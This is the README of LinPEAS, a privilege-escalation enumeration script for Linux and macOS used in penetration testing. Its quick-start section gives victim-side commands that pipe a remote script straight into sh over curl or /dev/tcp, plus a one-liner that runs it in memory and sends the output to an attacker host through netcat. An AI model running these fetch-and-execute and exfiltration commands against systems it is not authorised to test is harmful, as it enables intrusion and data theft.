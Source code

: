 # LinPEAS - Linux Privilege Escalation Awesome Script

![](https://github.com/peass-ng/PEASS-ng/raw/master/linPEAS/images/linpeas.png)

**LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix\*/MacOS hosts. The checks are explained on [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)**

Check the **Local Linux Privilege Escalation checklist** from **[book.hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)**.

[![asciicast](https://asciinema.org/a/250532.png)](https://asciinema.org/a/309566)

## MacPEAS

Just execute `linpeas.sh` in a MacOS system and the **MacPEAS version will be automatically executed**

## Quick Start
Find the **latest versions of all the scripts and binaries in [the releases page](https://github.com/peass-ng/PEASS-ng/releases/latest)**.

```bash
# From github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Without curl
python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"

python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
```

```bash
# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```

```bash
# Output to file
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors
```
